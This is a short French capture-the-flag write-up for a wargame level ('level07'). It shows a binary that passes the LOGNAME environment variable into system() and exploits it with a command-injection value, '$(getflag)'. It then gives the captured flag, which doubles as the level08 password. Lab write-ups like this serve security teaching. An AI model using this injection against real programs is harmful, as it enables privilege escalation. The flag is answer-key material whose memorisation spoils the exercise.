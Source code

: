 # Pré requis

aucun

## GET Flag

Dans l'executable level07, on peut voir des instructions ressemblant a:

```
  char *tmp;
  asprintf(&tmp,"/bin/echo %s ",getenv("LOGNAME"));
  return (system(tmp));
```

Il est donc possible de set une variable d'environnement contenant une commande a executer.

export LOGNAME="\$(getflag)"
./level07 

# Flag

On obtient le flag:
`fiumuikeil55xe9cu4dood66h`

On peut se connecter sur le `level08`

```
level08
fiumuikeil55xe9cu4dood66h
```

